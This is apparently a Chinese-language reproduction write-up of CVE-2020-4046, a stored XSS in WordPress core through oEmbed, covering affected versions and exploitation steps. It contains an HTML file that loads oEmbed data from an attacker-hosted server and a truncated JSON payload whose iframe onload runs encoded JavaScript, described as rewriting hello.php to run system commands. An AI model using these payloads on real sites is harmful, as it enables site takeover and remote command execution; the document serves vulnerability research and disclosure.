 （CVE-2020-4046）WordPress 5.3.4 储型XSS
========================================

一、漏洞简介
------------

该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

二、漏洞影响
------------

WordPress
5.3.4版本，5.2.7版本，5.1.6版本，5.0.10版本，4.9.15版本，4.8.14版本，4.7.18，
4.6.19版本，4.5.22版本，4.4.23版本，4.3.24版本，4.2.28版本，4.1.31版本，4.0.31版本，3.9.32版本，3.8.34版本，3.7.34版本。

三、复现过程
------------

要利用该漏洞，攻击者需要在其自身的web服务器上托管两个文件（这些文件的内容将在后面显示）。为使漏洞利用正常进行，被攻击的目标服务器必须能访问攻击者web服务器以下载payload。虽然WordPress有健全的外部资源引用控制机制，但是此类安全设置将会阻止WordPress嵌入其它正常的URL，因此实际场景中开启此安全设置是比较少见的。我们基于`@g0blinResearch`师傅的文章生成payload。然后将payload中插件地址修改为`hello.php`（也就是`/wp-content/plugins/hello.php`），该插件为WordPress默认插件且可以访问，同时进行了其他一些小的改动。该payload使用`https://eve.gd/2007/05/23/string-fromcharcode-encoder/`在线工具进行编码，以避免各种转义问题。在此演示中，对应的`payload.htm`如下：

    <HTML>
            <HEAD>
                    <LINK type="application/json+oembed" href="http://attackbox1.pentest.co.uk/payload.json">
            </HEAD>
    </HTML>

`payload.json`部分如下，（没有给出完整的利用代码是为了避免漏洞在未修复前被恶意利用）：

    {
            "type":"rich",
            "html":"<blockquote><iframe title=' width=\"'></iframe></blockquote><iframe src='noexist' title='xxx' 
             height=' title=' width=\"'' onload='eval(String.fromCharCode(118,97,114,…))'\"></iframe>"
    }

现在，我们用至少具有`贡献者`权限的账户登录目标站点，随后创建一个帖子以嵌入我们payload：

![1.png](./.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId24.png)

管理员随后查看帖子时：

![2.png](./.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId25.png)![3.png](./.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId26.png)

我们的payload已执行，并且对应`/wp-content/plugins/hello.php`文件被编辑成允许我们执行任意系统命令：

![4.png](./.resource/(CVE-2020-4046)WordPress5.3.4储型XSS/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7929
>
> https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
